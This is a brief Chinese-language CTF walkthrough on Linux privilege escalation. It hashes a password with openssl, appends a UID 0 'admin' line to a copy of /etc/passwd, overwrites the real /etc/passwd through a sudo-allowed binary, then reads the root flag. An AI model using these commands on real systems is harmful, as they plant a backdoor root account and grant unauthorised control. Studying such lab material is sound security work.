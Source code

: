 ```
openssl passwd -1 -salt admin 123456
```

- -1 的意思是使用md5加密算法
- -salt 自动插入一个随机数作为文件内容加密
- admin 123456 用户名和密码

![image-20220322175150021](https://gitee.com/xxb667/img/raw/master/img/image-20220322175150021.png)

根据`/etc/passwd`的格式

- 修改一下
- 然后存入一个文件里
- 这个文件就是`参数1`

```
echo 'admin:$1$admin$LClYcRe.ee8dQwgrFc5nz.:0:0::/root:/bin/bash' >> /tmp/passwd
    # 用户名:密码:uid:gid:家目录:登陆后使用的shell
    
sudo ./test /tmp/passwd /etc/passwd    
```

![image-20220322175413343](https://gitee.com/xxb667/img/raw/master/img/image-20220322175413343.png)



```
su admin
cd /root
ls
cat theflag.txt
```

![image-20220322175526580](https://gitee.com/xxb667/img/raw/master/img/image-20220322175526580.png)

